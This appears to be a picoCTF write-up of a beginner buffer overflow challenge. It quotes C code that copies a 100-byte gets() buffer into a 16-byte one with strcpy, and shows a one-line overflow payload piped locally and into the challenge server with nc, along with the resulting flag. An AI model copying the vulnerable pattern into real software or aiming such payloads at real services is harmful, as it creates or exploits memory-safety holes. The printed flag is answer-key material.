

## Current progress: Done

A not strip ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

Digging deeper with `objdump -t`. I think that it is because the buffer overflows from the `completed.7623` shown here:

However, I'm not a 100% sure if this is the correct assumption.

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net 55986`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`